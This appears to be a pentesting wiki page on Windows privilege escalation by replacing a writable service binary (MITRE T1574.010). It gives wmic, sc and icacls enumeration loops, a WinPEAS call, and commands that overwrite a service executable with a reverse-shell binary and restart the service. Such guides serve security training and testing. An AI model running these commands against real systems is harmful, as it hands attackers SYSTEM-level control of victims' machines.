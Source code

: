 ```yaml
---
description: MITRE ATT&CK™ Hijack Execution Flow - Services File Permissions Weakness - Technique T1574.010
---
```


# Weak File Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have write permissions over the folder or binary used by the service you can use it to escalate you privileges.

## Practice

If we have enough permissions over the binary of a service, we can replace it to our own binary. If you have write permissions over the folder you can do [DLL Hijacking](weak-files-permissions.md)

{% tabs %}
{% tab title="Enumeration" %}
We can get every binary that is executed by a service using wmic and check your permissions using icacls

```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Or we can use `sc` and `icacls`

```powershell
#Get list of services
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt

#Get each permissions over BINARY_PATH_NAME 
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

Or we can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
We just have to replace the binary.

```powershell
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```
And then, restart the service
```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
